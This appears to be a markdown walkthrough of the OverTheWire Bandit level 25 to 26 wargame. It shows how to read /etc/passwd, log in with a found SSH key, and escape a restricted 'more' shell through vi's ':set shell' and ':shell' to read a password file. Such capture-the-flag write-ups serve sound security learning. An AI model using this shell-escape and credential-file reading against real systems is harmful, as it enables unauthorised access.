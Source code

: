 # Bandit25 -> 26 Challenge

**MUST READ:**
<br>
After completing the lvl don't logout yet!
<br>
<br>

**Username:**
<br>
<br>
**bandit25**
<br>
<br>
**Password:**
<br>
<br>
**XXXXXXXXXXXXXXXXXXXXXXXXXXXpx8d**
<br>
<br>

**Task:**
Logging in to bandit26 from bandit25 should be fairly easy… 
The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
<br>
<br>
**OverTheWire Levels**
<br>
[Overthewire.org](https://overthewire.org/wargames/bandit/bandit26.html)

**Solution**
<br>
Do a 'ls -la', and get the password from min.(Fyi, we are going to need to min the screen and the cmd 'more')

**Step 1:**
<br>
ls -la

**Step 2:**
<br>
cat /etc/passwd | grep bandit26

**Step 3:**
<br>
cat /usr/bin/showtext

**Step 4:**
<br>
Shrink your console
<br>
(This helps with the process)

**Step 5:**
<br>
ssh -i ./bandit26.sshkey bandit26@localhost -p 2220
<br>
(After shrinking the console)

**Step 6:**
<br>
Press 'v'
<br>
(After it say's "More")

**Step 7:**
<br>
:set shell=/bin/bash
<br>
(After pressing "v")

**Step 8:**
<br>
:shell
<br>
(After doing Step 7)

**Step 9:**
<br>
cat /etc/bandit_pass/bandit26


*Fast way to logging in:*
<br>
ssh bandit.labs.overthewire.org -p 2220 -l bandit (whatever lvl you are on)

**Script for lvl**
<br>
**To be continued**
